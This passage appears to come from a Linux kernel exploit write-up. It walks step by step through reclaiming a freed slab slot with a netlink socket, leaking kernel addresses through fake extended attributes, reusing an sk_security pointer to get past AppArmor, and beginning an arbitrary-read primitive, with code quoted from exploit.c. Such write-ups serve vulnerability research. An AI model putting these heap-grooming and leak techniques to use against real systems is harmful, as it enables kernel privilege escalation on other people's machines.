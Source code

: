 ```c
```

- I do not bind this socket. Therefore, `po->running` is not set and i can skip the code path

```c
if (po->running &&
    match->type == type &&
    match->prot_hook.type == po->prot_hook.type &&
    match->prot_hook.dev == po->prot_hook.dev) {
```

- Reclaim arbitrarily free slot with `struct netlink_sock` object [exploit.c#L469](./exploit.c#L469):

```c
primitive_netlink_socket_fd = socket(AF_NETLINK, SOCK_DGRAM, NETLINK_USERSOCK);
```

- Leak `struct netlink_sock` object [exploit.c#L473](./exploit.c#L473):

```c
if (getxattr(FAKE_PACKET_FANOUT_FILE_PATH, "security.fake_packet_fanout", netlink_sock_leak_buf, 1024) < 0)
  return false;
```

- Save `struct netlink_sock` object address [exploit.c#L490](./exploit.c#L490):

```c
netlink_sock_addr = packet_sock_addr + SIMPLE_XATTR_STRUCT_SIZE;
```

- Save `sk_security` address [exploit.c#L491](./exploit.c#L491):

```c
netlink_sock_sk_security_addr = *(uint64_t*)(netlink_sock_leak_buf + SK_SECURITY_OFFSET_FROM_NETLINK_SOCK);
```

- When Apparmor is enabled, you need valid `sk_security` pointer to fake `struct netlink_sock` object. This time, i can reuse the value leaked directly from `struct netlink_sock` object.

- unnecessary step [exploit.c#L497](./exploit.c#L497):

```c
char netlink_sock_fake_buf[1024] = {};
get_full_timesplice();
removexattr(FAKE_PACKET_FANOUT_FILE_PATH, "security.fake_packet_fanout");
setxattr(FAKE_NETLINK_SOCK_FILE_PATH, "security.fake_netlink_sock", netlink_sock_fake_buf, 1024, 0);
```

- I just want to use "security.fake_netlink_sock" name in the future.

## Step7: Build arbitrarily read primitive

- Related kernel code:
```c
static int netlink_getsockopt(struct socket *sock, int level, int optname,
			      char __user *optval, int __user *optlen)
{
	struct sock *sk = sock->sk;
	struct netlink_sock *nlk = nlk_sk(sk);
	unsigned int flag;
	int len, val;

	if (level != SOL_NETLINK)
		return -ENOPROTOOPT;

	if (get_user(len, optlen))
		return -EFAULT;
	if (len < 0)
```